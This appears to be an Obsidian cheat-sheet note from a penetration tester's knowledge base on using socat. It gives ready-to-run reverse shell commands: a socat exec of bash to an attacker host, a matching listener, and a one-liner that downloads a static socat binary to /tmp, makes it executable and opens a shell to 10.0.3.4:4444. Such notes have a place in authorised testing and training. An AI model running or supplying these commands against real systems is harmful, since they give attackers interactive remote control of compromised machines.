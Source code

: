 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
[Socat](https://linux.die.net/man/1/socat) is similar to netcat but offers some additional features, like bi-directional port forwarding to connected serial devices. One particular use is to [upgrade a shell to a fully interactive TTY](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/#method-2-using-socat). The standalone binary of *socat* can be transferred to a target for a more stable reverse shell connection.

Socat is a bidirectional relay tool that can create pipe sockets between 2 independent network channels without needing to use SSH tunnelling. It acts as a redirector that listens on on host and port, forwarding the traffic to another host and port.
## Installation
```
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

## Documentation
**Cheatsheet:** 
**Website:** 
- http://www.dest-unreach.org/socat/
- https://github.com/andrew-d/static-binaries/master/binaries/linux/x86_64/socat
## Usage
### Create a Socat TTY reverse shell
On the victim (with Socat installed):
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:[atkbox IP]:[port]
```
On attack box, listen with:
```
socat file:`tty`,raw,echo=0 tcp-listen:[port]
```

### Install Socat, chmod it, exec TTY reverse shell
```bash
wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.0.3.4:4444
```
1. This downloads Socat from : [https://github.com/andrew-d/static-binaries](https://github.com/andrew-d/static-binaries) to a writable directory
2. Chmod it to be executable
3. Then execute the reverse shell

### Reverse shell redirection
![[Pivoting, Tunnelling, and Port Forwarding#Using Socat redirection for Reverse Shells]]